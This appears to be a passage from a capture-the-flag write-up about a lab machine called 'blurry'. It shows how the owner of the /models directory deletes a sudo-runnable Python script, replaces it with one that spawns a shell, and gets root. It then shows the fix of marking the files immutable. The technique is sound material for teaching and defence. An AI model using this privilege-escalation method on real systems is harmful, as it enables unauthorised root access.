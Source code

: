 jippity is not able to edit / append to `evaluate_model.py`:

```

jippity@blurry:/models$ echo -e "import os\n\nos.system("bash")" | tee evaluate_model.py 
tee: evaluate_model.py: Permission denied
import os

os.system(bash)

```

But as an owner of the directory, jippity can move or delete it:

```

jippity@blurry:/models$ rm evaluate_model.py

```

And now create a new file:

```

jippity@blurry:/models$ echo -e "import os\n\nos.system('sh')" | tee evaluate_model.py
import os

os.system('sh')

```

And running `sudo` returns a root shell:

```

jippity@blurry:/models$ sudo evaluate_model /models/demo_model.pth 
[+] Model /models/demo_model.pth is considered safe. Processing...
# id
uid=0(root) gid=0(root) groups=0(root)

```

This was patched by making both files in `/models` immutable:

```

jippity@blurry:/models$ lsattr -l *
demo_model.pth               Immutable, Extents
evaluate_model.py            Immutable, Extents

```

Now if jippity tries to delete `evaluate_model.py`, it fails:

```

jippity@blurry:/models$ rm evaluate_model.py 
rm: cannot remove 'evaluate_model.py': Operation not permitted

```
